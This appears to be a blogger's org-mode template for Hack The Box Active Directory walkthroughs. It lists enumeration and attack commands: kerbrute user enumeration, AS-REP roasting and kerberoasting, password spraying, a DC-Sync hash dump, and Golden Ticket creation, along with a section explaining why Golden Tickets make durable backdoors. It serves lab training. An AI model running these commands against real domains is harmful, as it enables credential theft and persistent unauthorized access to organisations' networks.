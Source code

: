 #+filetags: :Box:HTB:Easy:Windows:LDAP:ActiveDirectory:
#+HUGO_BASE_DIR: ~/Dropbox/40-49_Career/44-Blog/bloodstiller
#+HUGO_SECTION:
#+hugo_custom_front_matter: :draft true
#+hugo_custom_front_matter: :title "<boxName> HTB Walkthrough"
#+hugo_custom_front_matter: :author bloodstiller
#+hugo_custom_front_matter: :date 2024-10-10
:HIDDEN:
#+STARTUP: overview
#+STARTUP: hidestars
#+STARTUP: indent
#+STARTUP: entitiespretty
#+STARTUP: inlineimages
#+OPTIONS: H:4 toc:nil num:nil \n:nil ':nil *:t -:t ::t <:t ^:{} _:{} |:t f:t d:nil
#+OPTIONS: tex:mathjax tags:not-in-toc tasks:t title:nil
#+COLUMNS: %80ITEM %TAGS %TODO %SCHEDULED
#+TODO: TODO(t) IN-PROGRESS(i) NOTES(m) RABBITHOLE!(R) | DONE(d!) HOLD(h) WONT-DO(n)
:END:


* <Name of box> Hack The Box Walkthrough/Writeup:
:PROPERTIES:
:ID:       e3f25c99-179f-461d-9310-dd1f026d4ec1
:END:
- https://app.hackthebox.com/machines/<BoxName>

* How I use variables & Wordlists:
:PROPERTIES:
:ID:       807d55ef-43ab-462f-9307-7d03330b72d2
:END:
- *Variables*:
  - In my commands you are going to see me use ~$box~, ~$user~, ~$hash~, ~$domain~, ~$pass~ often.
    - I find the easiest way to eliminate type-os & to streamline my process it is easier to store important information in variables & aliases.
      - ~$box~ = The IP of the box
      - ~$pass~ = Passwords I have access to.
      - ~$user~ = current user I am enumerating with.
        - Depending on where I am in the process this can change if I move laterally.
      - ~$domain~ = the domain name e.g. ~sugarape.local~ or ~contoso.local~
      - ~$machine~ = the machine name e.g. ~DC01~
    - Why am I telling you this? People of all different levels read these writeups/walktrhoughs and I want to make it as easy as possible for people to follow along and take in valuable information.

- *Wordlists*:

  - I have symlinks all setup so I can get to my passwords from ~~/Wordlists~ so if you see me using that path that's why. If you are on Kali and following on, you will need to go to ~/usr/share/wordlists~
    - I also use these additional wordlists:
      - [[https://github.com/insidetrust/statistically-likely-usernames][Statistically-likely-usernames]]
      - [[https://github.com/danielmiessler/SecLists][SecLists]]
      - [[https://github.com/carlospolop/Auto_Wordlists][Auto_Wordlists]]
* 1. Enumeration:
:PROPERTIES:
:ID:       df114f61-f09f-46bc-a9d0-e1e62bf4d249
:END:
** Assumed Breach Box:
:PROPERTIES:
:ID:       8fdc027e-d7a4-4f54-9c83-4b9d26aa1453
:END:
- This box scenario assumes that the Active Directory (AD) environment has already been breached and that we have access to valid credentials.
- This approach reflects a more realistic model, given that direct breaches of AD environments from external footholds are increasingly rare today.
** NMAP:
:PROPERTIES:
:ID:       0d42892c-fad3-4440-834b-6ebf6c6f41c3
:END:
*** Basic Scans:
:PROPERTIES:
:ID:       13dd3494-95f0-4c4b-b6b8-85ce11fff991
:END:
+ *Basic TCP Scan*:
  - ~nmap $box -Pn -oA TCPbasicScan~
    #+begin_src shell

    #+end_src
  - *Initial thoughts*:

+ *Basic UDP Scan*:
  - ~sudo nmap $box -sU -Pn -oA UDPbasicScan~
#+begin_src shell

#+end_src
  - *Initial thoughts*:

*** Comprehensive Scans:
:PROPERTIES:
:ID:       38e2ad58-d516-494e-bb6e-0003582ce978
:END:
+ *In depth scan TCP*:
  - ~sudo nmap -p- -sV -sC -O -Pn --disable-arp-ping $box -oA FullTCP~
  #+begin_src shell

  #+end_src
  - *Findings*:

+ *In depth scan UDP*:
  - ~sudo nmap -p- -sU -sV -sC -O -Pn --disable-arp-ping $box -oA FullTCP~
  #+begin_src shell

  #+end_src
  - *Findings*:

** LDAP ~389~:
:PROPERTIES:
:ID:       2e42dbd8-49e7-4c58-84d5-19908110e112
:END:
*** Using LDAP anonymous bind to enumerate further:
:PROPERTIES:
:ID:       a04b2460-1898-47e3-924f-ebdd9b1ebb18
:END:
  - If you are unsure of what anonymous bind does. It enables us to query for domain information anonymously, e.g. without passing credentials.
    - We can actually retrieve a significant amount of information via anonymous bind such as:
      - A list of all users
      - A list of all groups
      - A list of all computers.
      - User account attributes.
      - The domain password policy.
      - Enumerate users who are susceptible to AS-REPRoasting.
      - Passwords stored in the description fields
    - The added benefit of using ldap to perform these queries is that these are most likely not going to trigger any sort of AV etc as ldap is how AD communicates.

  - I actually have a handy script to check if anonymous bind is enabled & if it is to dump a large amount of information. You can find it here
    - https://github.com/bloodstiller/ldapire
    - https://bloodstiller.com/cheatsheets/ldap-cheatsheet/#ldap-boxes-on-htb
      - ~python3 ldapchecker.py $box~
        - It will dump general information & also detailed & simple information including:
          - Groups
          - Users
  - It turns out the anonymous bind is not enabled and we get the below information. I have removed the majority of the information as it is not relevant, however there are some keys bits of information we can use moving forward.

    A) _We have the naming context of the domain_:
         #+begin_src shell
  kali in ~/Desktop/WindowsTools 🐍 v3.12.6  2GiB/15GiB | 0B/1GiB with /usr/bin/zsh
  🕙 08:50:47 zsh ❯ python3 ldapchecker.py $box
  Attempting to connect to 10.129.229.239 with SSL...
  Connected successfully. Retrieving server information...
  DSA info (from DSE):
    Supported LDAP versions: 3, 2
    Naming contexts:
      DC=outdated,DC=htb
      CN=Configuration,DC=outdated,DC=htb
      CN=Schema,CN=Configuration,DC=outdated,DC=htb
      DC=DomainDnsZones,DC=outdated,DC=htb
      DC=ForestDnsZones,DC=outdated,DC=htb
      #+END_SRC

    B) _We have the domain functionality level_:
        #+begin_src shell
  Other:
    domainFunctionality:
      7
    forestFunctionality:
      7
    domainControllerFunctionality:
      7
    rootDomainNamingContext:
      DC=outdated,DC=htb
    ldapServiceName:
      outdated.htb:dc$@OUTDATED.HTB
        #+end_src
       - The functionality level determines the minimum version of Windows server that can be used for a DC.
         - +Note+: that any host os can be used on *workstations*, however the functionality level determines what the minimum version for DC's and the forest.
         - https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/active-directory-functional-levels
         - Knowing the function level is useful as if want to target the DC's and servers, we can know by looking at the function level what the minimum level of OS would be.

         - In this case we can see it is level 7 which means that this server has to be running Windows Server 2016 or newer.
         - Here’s a list of functional level numbers and their corresponding Windows Server operating systems:

           | Functional Level Number | Corresponding OS            |
           |                       0 | Windows 2000                |
           |                       1 | Windows Server 2003 Interim |
           |                       2 | Windows Server 2003         |
           |                       3 | Windows Server 2008         |
           |                       4 | Windows Server 2008 R2      |
           |                       5 | Windows Server 2012         |
           |                       6 | Windows Server 2012 R2      |
           |                       7 | Windows Server 2016         |
           |                       8 | Windows Server 2019         |
           |                       9 | Windows Server 2022         |

           - +Note+:
             - Each number corresponds to the minimum Windows Server version required for domain controllers in the domain or forest.
             - As the functional level increases, additional Active Directory features become available, but older versions of Windows Server may not be supported as domain controllers.

    C) _We have the full server name_:
       - Again we can see this has the CN as the base (mentioned previously.)
         #+begin_src shell
  serverName:
      CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=outdated,DC=htb
         #+end_src
  - It's pretty amazing already what we have learned just by running some fairly simple ldap queries.
    + We have the naming context.
    + Domain name.

*** Updating ETC/HOSTS & Variables:
:PROPERTIES:
:ID:       70c39e1a-91a2-4102-898c-d195b5b42155
:END:
- *Updated Domain & Machine Variables for Testing*:
  - Now that I have this information, I can update the ~domain~ and ~machine~ variables used in tests:
    - ~update_var domain "certified.htb"~
    - ~update_var machine "DC01"~

- *Updating ~/etc/hosts~ for DNS and LDAP Queries*:
  - I update my ~/etc/hosts~ file to enable tools like [[https://github.com/ropnop/kerbrute][kerbrute]] for user enumeration and other tools that require DNS or LDAP for queries:
    - ~echo "$box   $domain $machine.$domain" | sudo tee -a /etc/hosts~

*** Syncing Clocks for Kerberos Exploitation:
:PROPERTIES:
:ID:       d2509b2d-ec58-4483-9d01-3915d8957dc8
:END:
- Since Kerberos is enabled on this host, it's best practice to sync our clock with the host’s. This helps avoid issues from clock misalignment, which can cause false negatives in Kerberos exploitation attempts.
  - ~sudo ntpdate -s $domain~
  - +Note+: I am doing this now as we have the DNS name etc.

** DNS ~53~:
:PROPERTIES:
:ID:       72e6c6aa-a991-4b59-8a1d-9c1967f71edb
:END:
- *Using dnsenum to enumerate DNS entries*:
  - ~dnsenum -r --dnsserver $box --enum -p 0 -s 0 -f ~/Wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt $domain~
** Kerberos ~88~:
:PROPERTIES:
:ID:       1a19d7f9-b46c-44e4-902f-dbeb85742df5
:END:
*** Using [[https://github.com/ropnop/kerbrute][Kerbrute]] to bruteforce Usernames:
:PROPERTIES:
:ID:       e9be28c8-168a-48a0-8bc2-f467a8ae3ed8
:END:
- As kerberos is present we can enumerate users using [[https://github.com/ropnop/kerbrute][kerbrute]]:
  - ~kerbrute userenum -d $domain --dc $box ~/Wordlists/statistically-likely-usernames/jsmith.txt~
*** Using netexec for ASReproasting:
:PROPERTIES:
:ID:       b16a1594-64e3-42e9-ae39-168baab3c1b9
:END:
- *We should always try and asreproast with a null/guest session as it can lead to an easy win*:
  - ~netexec ldap $box -u '' -p '' --asreproast asrep.txt~
  - ~netexec ldap $box -u guest -p '' --asreproast asrep.txt~
*** Using netexec for Kerberoasting:
:PROPERTIES:
:ID:       9c9985bd-717a-48a9-b628-ce8633a5acba
:END:
- *As we have creds we can kerberoast*:
  - ~netexec ldap $box -u $user -p $pass --kerberoast kerb.txt~
** SMB ~445~:
:PROPERTIES:
:ID:       4f2c7ccb-eaa6-4a32-95c4-87545fd949d6
:END:
*** Attempting to connect with NULL & Guest sessions:
:PROPERTIES:
:ID:       fc63ee15-d711-4a53-818d-b4138791f6e4
:END:
- *This is a standard check I always try as alot of the time the guest account or null sessions can lead to a foothold*:
  - ~netexec smb $box -u 'guest' -p '' --shares~
  - ~netexec smb $box -u '' -p '' --shares~

*** Trying Usernames as Passwords:
:PROPERTIES:
:ID:       51b5cc92-1537-42c7-9e51-a41685758ef6
:END:
- *I always try usernames as passwords as well*:
  - ~netexec smb $box -u Users.txt -p Users.txt --shares --continue-on-success | grep [+]~
*** Using smbclient:
:PROPERTIES:
:ID:       57c70b81-c003-468c-954f-add9c67c22fb
:END:
- ~smbclient -U 'guest' "\\\\$box\\<share>"~
*** Enumerating Users with Impacket-lookupsid:
:PROPERTIES:
:ID:       edf3f6be-05e3-4dcf-ab38-7b228174cd29
:END:
- *We can use* ~impacket-lookupsid~ *to enumerate users on the domain*:
  - ~impacket-lookupsid $domain/guest@$machine.$domain -domain-sids~
  - ~impacket-lookupsid guest@$box -domain-sids -no-pass~
  - +Note+: As we are using the "Guest" account we can just hit enter for a blank password

** Web ~80~:
:PROPERTIES:
:ID:       d4efb869-5997-4ab8-8e37-f60f433f7e95
:END:
- *Web Enumeration via Burp Suite*:
  - When enumerating a website, always use Burp Suite. This allows you to:
  - Record all potential injection points.
  - Capture relevant responses for each request, making it easier to analyze vulnerabilities and track your testing progress.
*** Enumerating Injection Points:
:PROPERTIES:
:ID:       1c3b10db-c43e-40bd-a27c-fbd91296b3fa
:END:
*** Dirbusting the webserver using ffuf:
:PROPERTIES:
:ID:       2662f823-d569-4552-8ed3-e48978b5dedb
:END:
- *I Perform some directory busting to see if there are any interesting directories*:
  - ~ffuf -w ~/Wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://$box/FUZZ -fc 403 -ic~
** RPC:
:PROPERTIES:
:ID:       224bdc39-b44b-4c8c-a54b-128716a6f5fa
:END:
- *As we have valid credentials we can also connect to RPC to enumerate further*:
  - ~rpcclient -U $user $box~

- +Cheatsheet+: I have an enumertion & attacking cheatsheet for RPC, available here:
  - https://bloodstiller.com/cheatsheets/rpc-cheatsheet/#enumerating-rpc-using-rpcclient

- *Null session via RPC*:
  - Much like SMB you can also connect to RPC via null & guest sessions, let's see if they are valid here:
    - ~rpcclient -U "" $box~
    - ~rpcclient -U '%' $box~
*** Enumerating domain users via RPC:
:PROPERTIES:
:ID:       5f636d7c-754a-4422-86e5-d2c6f29cd141
:END:
- *We can enumerate all the users of the domain via RPC*:
  - ~enumdomusers~

- *Querying individual users*:
  - Once we have the RID's as displayed above we can enumerate each user further. This is useful to discover if they have anything interesting in their "Description fields etc"
  - ~queryuser [RID]~
*** Enumerating groups via RPC:
:PROPERTIES:
:ID:       7f587aa4-d279-42fb-a234-707b295df4ed
:END:
- *We can also enumerate groups*:
  - ~enumdomgroups~

- *Querying individual groups*:
  - Once we have the RID's as displayed above we can enumerate each group further. Just like we did with users.
  - ~querygroup [RID]~
* 2. Foothold:
:PROPERTIES:
:ID:       12cad379-c0d0-4c07-8b2c-28440c2582cf
:END:
1.
* 3. Privilege Escalation:
:PROPERTIES:
:ID:       d9e6b559-a369-42b5-92da-4ccd104efb1c
:END:
1.
* 4. Persistence:
:PROPERTIES:
:ID:       37a8061a-df18-452e-a13a-025297fb661f
:END:
** Dumping NTDS.dit/DC-SYNC attack:
:PROPERTIES:
:ID:       43858f16-d1b9-48be-a790-bfbd13b17275
:END:
- *Perform DC-Sync attack using netexec*:
  - ~netexec smb $box -u $user -p $pass -M ntdsutil~

- *Extract all hashes from netexec*
  - ~for file in /home/kali/.nxc/logs/*.ntds; do cat "$file" | cut -d ':' -f1,2,4 --output-delimiter=' ' | awk '{print $3, $2, $1}'; printf '\n'; done~

** Creating a Kerberos Golden Ticket:
:PROPERTIES:
:ID:       7e540f36-bd29-450a-a2af-b11be5822f4d
:END:

+ *Using* ~impacket-lookupsid~ *to get the Search for the Domain SID*:
  - ~impacket-lookupsid $domain/$user@$machine.$domain -domain-sids~

+ *Sync our clock to the host using ntupdate*:
  - ~sudo ntpdate -s $domain~

+ *Using* ~impacket-ticketer~ *to create the Golden Ticket*:
  - ~impacket-ticketer -nthash $krbtgt -domain-sid $sid -domain $domain Administrator~

+ *Export the ticket to the* ~KRB5CCNAME~ *Variable*:
  - ~export KRB5CCNAME=./Administrator.ccache~

+ *Use the ticket for connecting via* ~psexec~
  - ~impacket-psexec -k -no-pass $machine.$domain~

*** Why create a golden ticket?
:PROPERTIES:
:ID:       5a887352-90e5-435b-9d34-06b32b32d0a5
:END:
- "But bloodstiller why are you making a golden ticket if you have the admin hash?" Glad you asked:
  - Creating a Golden Ticket during an engagement is a reliable way to maintain access over the long haul. Here’s why:
  - ~KRBTGT~ *Hash Dependence*:
    - Golden Tickets are generated using the ~KRBTGT~ account hash from the target’s domain controller.
    - Unlike user account passwords, ~KRBTGT~ hashes are rarely rotated (and in many organizations, they are never changed), so the Golden Ticket remains valid indefinitely.
  - ~KRBTGT~ *Hash—The Key to It All (for upto 10 years)*:
    - A Golden Ticket can allow you to maintain access to a system for up to 10 years (yeah, you read that right the default lifespan of a golden ticket is 10 years) without needing additional credentials.
    - This makes it a reliable backdoor, especially if re-access is needed long after initial entry.
    - *Think about it*: even if they reset every user’s password (including the administrator etc) your Golden Ticket is still valid because it’s tied to the ~KRBTGT~ account, not individual users.
* Lessons Learned:
:PROPERTIES:
:ID:       2c027237-8833-4750-a7e7-4282b86b6b75
:END:
** What did I learn?
:PROPERTIES:
:ID:       6fe78ec6-f538-4653-a4de-987388927bb7
:END:
  1.
  2.
  3.
** What silly mistakes did I make?
:PROPERTIES:
:ID:       9c617b79-9173-496c-a4eb-7d43fb807aee
:END:
  1.
  2.

* Sign off:
:PROPERTIES:
:ID:       52ccdf4f-ff0e-405d-aa9b-42ea204b741b
:END:

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

-- Bloodstiller

-- Get in touch bloodstiller at proton dot me

* +CREDS+:
:PROPERTIES:
:ID:       6c2b5bb7-14bf-4c0d-8b05-2f25e346f0c6
:END:
** Compiled Usernames, Passwords & Hashes:
:PROPERTIES:
:ID:       4f5a86e1-5b54-49c8-a9be-b5e20e3f63bd
:END:
*** Usernames:
:PROPERTIES:
:header-args: :tangle Users.txt :mkdirp yes :perms
:ID:       70c0d96c-a165-436a-984f-d6c3518b9eaf
:END:
#+begin_src text
Administrator
Guest
Root
krbtgt
Admin
#+end_src

*** Passwords:
:PROPERTIES:
:header-args: :tangle Passwords.txt :mkdirp yes :perms
:ID:       15f28104-49ee-43ab-8b58-599d79233039
:END:
#+begin_src text

#+end_src

*** Email Names:
:PROPERTIES:
:header-args: :tangle Emails.txt :mkdirp yes :perms
:ID:       6f5c0eaa-5976-4347-874e-399a302eed66
:END:

#+begin_src text
#+end_src
*** Username & Pass:
:PROPERTIES:
:ID:       c1b57e7a-7037-43ab-9082-4f173be9323f
:END:
#+begin_src text

#+end_src


*** Hashes:
:PROPERTIES:
:header-args: :tangle Hashes.txt :mkdirp yes :perms
:ID:       efdd9b2b-1a20-40d7-b99c-eac4b22b1f0a
:END:
- *Extract all hashes from netexec*
  - *Extract only enabled hashes*:
    - ~grep -iv disabled /home/kali/.nxc/logs/*.ntds | cut -d ':' -f2,5 --output-delimiter=' ' | awk '{print $2, $1}'~
  - *Extract all hashes*
    - ~cat /home/kali/.nxc/logs/*.ntds | cut -d ':' -f1,2,4 --output-delimiter=' ' | awk '{print $3, $2, $1}'~
    - +Note+: We need to include disabled hashes to get the krbtgt hash in this method as that account is disabled by default.

#+begin_src text

#+end_src

** SSH Keys:
:PROPERTIES:
:ID:       a7494955-ab6b-4500-8d5d-e3fb9ef341bf
:END:
